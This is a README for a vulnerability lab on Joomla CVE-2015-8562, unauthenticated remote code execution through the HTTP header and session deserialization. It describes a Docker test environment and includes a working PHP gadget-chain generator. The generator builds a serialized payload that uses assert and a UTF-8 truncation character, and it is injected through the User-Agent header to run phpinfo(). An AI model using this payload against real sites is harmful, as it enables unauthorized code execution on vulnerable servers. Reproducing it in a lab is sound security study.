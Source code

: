 # Joomla HTTP Header Unauthenticated Remote Code Execution (CVE-2015-8562)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

Joomla suffers from an unauthenticated remote code execution that affects all versions from 1.5.0 to 3.4.5. By storing user supplied headers in the databases session table it's possible to truncate the input by sending an 4-bytes UTF-8 character. The custom created payload is then executed once the session is read from the database. You also need to have a PHP version before 5.4.45 (including 5.3.x), 5.5.29 or 5.6.13.

References:

- <https://packetstormsecurity.com/files/134949/Joomla-HTTP-Header-Unauthenticated-Remote-Code-Execution.html>
- <https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html>

## Vulnerable Environment

Executing following command to start a Joomla 3.4.5:

```
docker-compose up -d
```

After the server is started, you can see the home page of it at `http://your-ip:8080`.

## Exploit

First of all, you need to send a request without User-Agent header and remember the Cookie in the response:

![](2.png)

Then use this script to generate a payload ([execute online](https://onlinephp.io/c/e824b)):

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![](1.png)

Put this craft payload into User-Agent header with Cookie obtained earlier. As you can see, our code `phpinfo()` is executed:

![](2.png)
